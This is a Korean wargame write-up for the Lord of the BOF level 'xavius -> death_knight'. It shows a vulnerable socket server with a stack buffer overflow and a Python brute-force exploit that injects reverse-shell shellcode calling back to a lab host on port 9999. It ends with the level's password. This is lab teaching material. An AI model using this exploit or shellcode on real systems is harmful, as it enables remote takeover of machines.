 ```yaml
---
layout: single
title: "LOB xavius -> death_night"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
comments: true
share: true
---
```


source code:

```c

1  /*
2          The Lord of the BOF : The Fellowship of the BOF
3          - dark knight
4          - remote BOF
5  */
6  
7  #include <stdio.h>
8  #include <stdlib.h>
9  #include <errno.h>
10 #include <string.h>
11 #include <sys/types.h>
12 #include <netinet/in.h>
13 #include <sys/socket.h>
14 #include <sys/wait.h>
15 #include <dumpcode.h>
16 
17 main()
18 {
19         char buffer[40];
20 
21         int server_fd, client_fd;
22         struct sockaddr_in server_addr;
23         struct sockaddr_in client_addr;
24         int sin_size;
25 
26         if((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
27                 perror("socket");
28                 exit(1);
29         }
30 
31         server_addr.sin_family = AF_INET;
32         server_addr.sin_port = htons(6666);
33         server_addr.sin_addr.s_addr = INADDR_ANY;
34         bzero(&(server_addr.sin_zero), 8);
35 
36         if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
37                 perror("bind");
38                 exit(1);
39         }
40 
41         if(listen(server_fd, 10) == -1){
42                 perror("listen");
43                 exit(1);
44         }
45 
46         while(1) {
47                 sin_size = sizeof(struct sockaddr_in);
48                 if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
49                         perror("accept");
50                         continue;
51                 }
52 
53                 if (!fork()){
54                         send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
55                         send(client_fd, "You : ", 6, 0);
56                         recv(client_fd, buffer, 256, 0);
57                         close(client_fd);
58                         break;
59                 }
60 
61                 close(client_fd);
62                 while(waitpid(-1,NULL,WNOHANG) > 0);
63         }
64         close(server_fd);
65 }

```

평범한 소켓 통신 서버 역할을 하는 프로그램이며, 원격접속한 사용자로부터 입력값을 받고 있다. 그리고 이를 통해 Buffer Overflow(이하 BOF)가 발생하게 된다. 그리고 이전의 문제들과 다르게 이 버퍼에는 아무런 보호조치가 되어있지 않다. 결국 이 문제는 원격지에서 이 LOB 서버로 접속한 후, 쉘코드와 함께 bof를 발생시키면 된다. 우선 따로 만든 공격지에서 LOB 서버 6666번 포트로 nc 명령어를 사용하였다.

![nc]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/0.png)

위와 같이 입력값을 받고 있다.
공격지인 다른 리눅스 로컬로 리버스 쉘코드를 사용한 브루트 포스 코드를 작성해 두었다. 원격에서 공격하는 만큼 ret주소를 알 수 없기 때문에 브루트 포스를 사용했다.


Reverse shellcode 출처: https://orang.tistory.com/entry/%ED%95%B4%EC%BB%A4%EC%8A%A4%EC%BF%A8-LOB-xavius-deathknight-by-ORANG

```c

1  import sys, struct, socket
2  
3  host = "192.168.235.135"
4  port = 6666
5  
6  hexhost = "\xc0\xa8\xeb\x8a" # 192.168.235.138
7  recvhexport = "\x27\x0f" # port 9999
8  
9  shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68" + hexhost + "\x68\x02\x00" + recvhexport + "\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"10 
11 padding1 = "A" * 44
12 padding2 = "\x90" * 50
13 payload = ""
14 
15 for i in range(0xff, 0xf0, -1):
16 	for j in range(0xff, 0x00, -1):
17 		for k in range(0xff, 0x00, -1):
18 		 	r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
19 		 	r.connect((host, port))
20 		 	retaddr = chr(k) + chr(j) + chr(i) + "\xbf"
21 		 	print("RET: " + str(hex(struct.unpack("I", retaddr)[0])))
22 		 	payload += padding1
23 		 	payload += retaddr
24 		 	payload += padding2
25 		 	payload += shellcode
26 		 	print(r.recv(52))
27 		 	print(r.recv(6))
28 		 	r.send(payload)
29 		 	r.close()

```

LOB 서버에 6666번 포트로 연결하고, receive를 9999번 포트로 받으려고 한다.

![nc2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/1.png)

nc로 공격지에서 listen 모드로 9999번 포트를 열어두고, 위의 브루트포스 코드를 실행시킨다.

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/2.png)


my-pass: got the life